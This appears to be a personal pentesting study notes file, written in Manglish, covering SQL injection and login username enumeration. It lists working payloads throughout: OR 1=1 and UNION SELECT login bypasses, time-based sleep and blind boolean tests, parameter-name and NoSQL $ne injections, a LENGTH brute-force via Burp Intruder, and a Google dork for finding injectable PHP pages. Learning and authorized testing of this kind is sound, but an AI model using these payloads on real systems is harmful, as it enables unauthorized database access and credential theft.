 
### SQL I
1) namal session id il ninum athava {"username":josu"} ennath kandu pidichu enn vecho apol josu enath mati admin enn aki nokam.but avide vech nirtharuth athilum sql i patuon nokanam ie, {"username":"admin';sleep(10);"}
2) username=josu%password=admin' OR 1=1--    oru space um last itto (url encode it)
3) username=josu'+and+sleep(9)--+&password=foo itt test chythnok.ithakunilengil josu'+or+1=1--+&passwd=foo itt test chythnok
4) ?category=admin' OR 1=1-- (url encode chyumbol = sign encode chythum pine chyatheyum test chyth nokanam ok athayath 1=1 ile = ok)
5) epozhum sql i test chyan sleep(10) nokam eth parameter ilum test chyam ie
                                 username:a'; SLEEP pg_sleep(10);--
                                 password:foo
5) satharana nammal parameter value il aan injection chyuka but nauk parameter name il thane inject chyan patumonum nokam, ie, name=josu&password=foo ennath sql chyumbol -> name[0;--] or name[0; --]=josu.... ennaki noki test chyuka
6) oru karyam sredhikuka athayath ee name enna parameter name html il input elementile name enna attributinte value aan.allathe aa attribute alla ok.namuk direct browseril thane ee sql i test chyam.inspect element adich(login areayil) edit as html kodukuka enit athile `<input ....name="name[0; --]" size="....`
7) ==athayath burp ile parameter names(not value) okke html il varumbol oro elementinteyum attribute value aayirikum==
8) database il username,password mathramall pala karyangalum save chyth vechitundakum.so just login page il matharmalla.pala sthalangalilum namal sqli test chyanam.json web token chelapo server databse il aayirikum save chyth vechitundavuka.so namal kid polula parameter il sqli test chyam
9) username= 'OR'1  password= 'OR'1  enn koduth test chyth nok
10) username= admin' UNION SELECT "xyz" as password from admins where '1'='1    - hacker101 inte exploit aan.ith ingane thane username il kodukuka enit password=xyz enum kodukuka.karanam namal "xyz" enn kodukunund username il
11) username inte length kandupidikan -> `username=' or LENGTH(username)=§1§#&password=helo`  enn kodukuka enit intruder il onn muthal 15 vere numbers kodukuka.enit result il nokiyal or request il mathram length vere kanum.eth number il aano length vere kanunath athrem aan username.ithupole thane passwordum kandupidkam.NOTE: ivide # ittath ith maria db aayath kondan.slash means athin shesham ullathelam comment chyapedum ok
12) image oke upload chyumbol vere thane reethiyil aanalo request undavuka apol athile ------ in thot mukalil ulla sathanathil '--+ ittoke test chyanam
13) ellathilum -- enna comment ayirikanamenila support chyunath.chelapo ## enna comment aayirikum support cyuka ok
14) manual aayi sql chyumbol -> aadyam table name kandethanam.table namde kandethiyal next athil ethra columns und enn kandethanam.next oro column intem datatype ariyanam.ennal mathrame dump chyan patu.NOTE: namal eth parameter il aano test chyunath athil thane columns ithra enn undakum so athinanusarich mathrame namuk different aayitula table call chyan patu ok
15) ==NOTE: namal type chynath display il kanichal mathrame UNION based injection nadaku enn thonunu==
16) eth type database aanen kandupidichal athinte documentation il poyal namuk default aayitula table names um column names um kaanan patum.so ath vech namuk ethoke tables um aa tables il ethoke columns um unden manasilakam ok
17) BLIND SQLI test chyan -> parameter il  `' and 1=1--`  enn koduth test chyuka.like `cookie: tracking_id=hlsdkfjl'+and+1=1--; session=sldkf...` 1=1 epozhum true aayath kond site normal ayit thane pravarthkum.ini namal 1=1 ennath mati 1=0-- enn kodukuka enit site error vannal blind sqli und ennartham ok.so ithupole true or false question vech namuk users table undo undengil inna columns undo enoke choich manasilakam ok
18) Time-based sqli   ->  '+||+pg_sleep(9)--;   or '+||+sleep(9)--;   depending on the DB
19) NoSql i ->`login=josu2&password[$ne]=joseph%40michal.1&s or $gt itt nok`
20) `Google Dork : site:domian ext:php inurl:?id=`  Athayath .php extension undayirkanam.athpole url il id enna parameter aayrikanam undayirikendath.angane namuk enthengilum url kitum.so athvech sql,xss oke nokam ok
### Authentication:
1) login il username no valid enn kandal namuk username aadyam enumerate chyam karnam username valid aayite password check chyoo
2) chelapo username password invalid ennayirikum kanuka.apol username enumerate chyan intruder il add kodukuk[[XSS]]a password parameter il ethenlum kodukuka.ennit options tab il grep-extract il poi add click chyth aa statemetn select chyth ok koduth attack chyuka